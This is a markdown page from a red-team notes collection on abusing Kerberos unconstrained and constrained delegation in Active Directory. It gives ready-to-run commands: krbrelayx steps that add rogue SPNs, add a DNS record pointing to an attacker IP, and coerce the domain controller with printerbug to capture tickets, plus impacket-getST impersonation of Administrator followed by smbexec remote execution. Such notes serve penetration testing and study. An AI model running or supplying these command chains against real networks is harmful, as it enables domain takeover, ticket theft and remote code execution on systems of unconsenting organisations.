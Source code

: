 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects
  *  Add FQDNs to `hosts` file or point to name server to avoid DNS errors
  *  All examples here [covered in Red XOR Blue blog post](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## [Unconstrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
  *  KUD service accounts are provided a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  `krbrelayx` for abusing user accounts with KUD (relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16))
      *  Create evil SPNs for service account using non-existent hostname
      *  Create evil DNS record matching evil SPNs pointing to attacker IP
      *  Coerce authentication to evil SPNs and capture TGT
  *  Computer accounts with KUD are [easily abused by extracting delegated TGTs from memory](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account 
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```

## [Constrained delegation](https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c)
  *  KCD service accounts can request TGS for a set list of services as any user
      *  Relies on [S4U extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/8ee85a47-7526-4184-a7c5-25a5e4155d7d?redirectedfrom=MSDN) to support protocol transition, delegation privilege validation, etc.
      *  `impacket` suite will [attempt to modify](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) the `sname` field when the target service doesn't match a given TGS
  *  `impacket-getST` for obtaining impersonated service tickets (not suitable for `Kerberos only` delegation)

```
impacket-getST -spn 'WWW/SERVER.corp.local' -impersonate 'Administrator' corp.local/sqlsvc:'password' -dc-ip 10.0.0.1
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-smbexec corp.local/Administrator@SERVER.corp.local -k -no-pass -dc-ip 10.0.0.1
```
